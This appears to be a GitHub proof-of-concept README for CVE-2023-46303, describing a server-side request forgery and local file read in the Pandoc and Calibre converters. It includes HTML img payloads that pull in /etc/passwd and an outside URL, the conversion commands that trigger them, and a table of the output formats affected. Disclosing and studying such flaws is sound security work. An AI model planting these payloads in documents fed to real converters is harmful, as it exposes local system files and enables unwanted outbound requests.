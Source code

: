 # :bee: CVE-2023-46303 - SSRF Vulnerability in PANDOC and CALIBRE
-
-
-
-
## :mushroom: PANDOC

### :spider_web: https://github.com/jgm/pandoc (Pandoc in Github)
- What is Pandoc?
- Pandoc is a Universal Markup Converter

[![Star History Chart](https://api.star-history.com/svg?repos=jgm/pandoc)](https://star-history.com/#jgm/pandoc)
---
-
-
-
-
## :mushroom: CALIBRE

### :spider_web: https://github.com/kovidgoyal/calibre (Calibre in Github)
- What is Calibre?
- The official source code repository for the calibre ebook manager

[![Star History Chart](https://api.star-history.com/svg?repos=kovidgoyal/calibre&type=Date)](https://star-history.com/#kovidgoyal/calibre)
---
-
-
-
-

## For Example
+ ### We install both applications on a linux computer and create a test file with html

### :lady_beetle: ssrf.html
+ `<img src="file:///etc/passwd">`
+ `<img src="http://ip-api.com/csv">`
+ ![ssrf.html](img/0x1.png "ssrf.html")

## Where does the vulnerability occur and how is it triggered?
+ When we want to convert an html file to a different document via terminal, we use the following command.
+ `$ pandoc ssrf.html -o ssrf.epub` PANDOC
+ `$ ebook-convert ssrf.html ssrf.epub` CALIBRE

## SSRF via Converter (Example is PANDOC but you can also try CALIBRE)
+ `$ pandoc ssrf.html -o ssrf.epub` PANDOC
+ ![0x2.png](img/0x2.png "0x2.png")
+ ![0x3.png](img/0x3.png "0x3.png")
+ After the html file is successfully converted to epub file, you need to open this epub file with "Archive Manager"
+ When we check the folders and subfolders in the epub file we opened with "Archive Manager", we will see one or two different files. When we open these files, we can see that the ssrf vulnerability is triggered.
+ ![0x4.png](img/0x4.png "0x4.png")
+ ![0x5.png](img/0x5.png "0x5.png")
+ ![0x6.png](img/0x6.png "0x6.png")
+ ![0x7.png](img/0x7.png "0x7.png")
+ ![0x8.png](img/0x8.png "0x8.png")

---
-
-
-
-

+ I went through all converter processes in pandoc and calibre and found that this vulnerability exists in multiple converters.
+ In the table below, you can examine what types of ssrf are in which files.
+ You can also use the iframe tag instead of the img tag in calibre.

| PANDOC | EPUB | ODT | DOCX | PPTX | FB2 |
| --- | --- | --- | --- | --- | --- |
`<img src="file:///etc/passwd">` | :heavy_check_mark: | :heavy_check_mark: | :x: | :heavy_check_mark: | :x:
`<img src="http://ip-api.com/csv">` | :heavy_check_mark: | :heavy_check_mark: | :heavy_check_mark: | :x: | :heavy_check_mark: (Base64 Encoded)

| CALIBRE | EPUB |
| --- | --- |
`<img src="file:///etc/passwd">` | :heavy_check_mark: |
`<img src="http://ip-api.com/csv">` | :x: |

+ In the example, we converted our html file to epub, but as you can see in the table above, we can see that the vulnerability is triggered not only when converting to epub but also other files.
---
-
-
-
-

> #### Created by 0x1717 aka GYG3S
